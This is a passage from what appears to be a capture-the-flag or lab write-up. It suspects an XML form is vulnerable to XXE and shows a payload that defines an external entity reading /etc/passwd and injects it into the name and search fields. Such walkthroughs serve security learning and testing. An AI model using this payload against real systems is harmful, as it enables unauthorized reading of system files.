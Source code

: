 ![Pasted image 20250425130433.png](../../IMAGES/Pasted%20image%2020250425130433.png)

The format of it may suggest it is vulnerable to `XXE`, let's try some stuff then, for example, a basic `LFI`:

```XML
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<root>
  <name>
&xxe;</name>
<search>&xxe;
</search>
</root>
```

![Pasted image 20250425131018.png](../../IMAGES/Pasted%20image%2020250425131018.png)
